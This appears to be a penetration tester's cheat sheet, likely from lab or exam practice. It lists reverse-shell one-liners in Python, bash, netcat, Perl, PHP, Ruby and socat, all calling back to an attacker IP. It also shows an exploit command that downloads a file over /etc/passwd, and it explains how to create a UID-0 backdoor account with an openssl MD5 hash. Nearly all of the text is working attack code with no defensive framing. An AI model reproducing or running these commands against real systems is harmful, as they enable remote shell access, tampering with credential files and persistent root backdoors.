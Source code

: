 one cmd shell

  

```SQL
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.245\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

```SQL
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.245\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")
```

```SQL
bash -i >& /dev/tcp/192.168.45.245/80 0>&1
nc -e /bin/bash 192.168.45.245 80
perl -e 'use Socket;$i="192.168.45.245";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

```SQL
php -r '$sock=fsockopen("192.168.45.245",80);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```SQL
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.45.245","80");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

```SQL
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.245:80
```

```SQL
bash -c '\''exec 5<>/dev/tcp/192.168.45.245/80;cat <&5 | while read line; do $line 2>&5 >&5; done'\''
```

```SQL
python -c '\''import socket,subprocess;s=socket.socket();s.connect(("192.168.45.245",80));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'\''
```

```SQL
python 47984.py 192.168.236.71 25 'wget 192.168.45.245/passwd.bak -O /etc/passwd'
-O /etc/passwd - Output flag that:
- Overwrites the target's /etc/passwd file
- Forces root ownership since the exploit runs as root
```

  

  

```SQL
openssl passwd -1 -salt noah qwert
- openssl passwd - Creates a password hash
- -1 - Uses MD5 hashing algorithm (that's why hash starts with $1$)
- -salt noah - Uses "noah" as the salt value
- qwert - The actual password being hashed
Output: $1$noah$dON8zsUBztMT5DFx8ZhsP/

- $1$ - Indicates MD5 algorithm
- noah - The salt value
- dON8zsUBztMT5DFx8ZhsP/ - The hashed password
```

noah:$1$noah$dON8zsUBztMT5DFx8ZhsP/:0:0:root:/root:/bin/bash

Each field is separated by colons (:):

1. noah - Username
2. $1$noah$dON8zsUBztMT5DFx8ZhsP/ - Password hash:
    - $1$ indicates MD5 hashing
    - noah is the salt
    - Rest is the actual hash
3. 0 - User ID (UID) - root has UID 0
4. 0 - Group ID (GID) - root group has GID 0
5. root - Comment/User Info field
6. /root - Home directory
7. /bin/bash - Default shell  
    This entry is significant because:

- UID and GID of 0 gives root privileges
- Has a login shell (/bin/bash) allowing interactive login
- Located in /root directory like the real root user
- Created as an additional root-level account  
    This is effectively a backdoor root account that was added to the system.

Username "noah" is used as both the username and salt

- noah - This is the actual username
- $1$noah$dON8zsUBztMT5DFx8ZhsP/ - Password hash
- 0 - UID (root level)
- 0 - GID (root group)
- root - Just a comment/description field
- /root - Home directory
- /bin/bash - Login shell
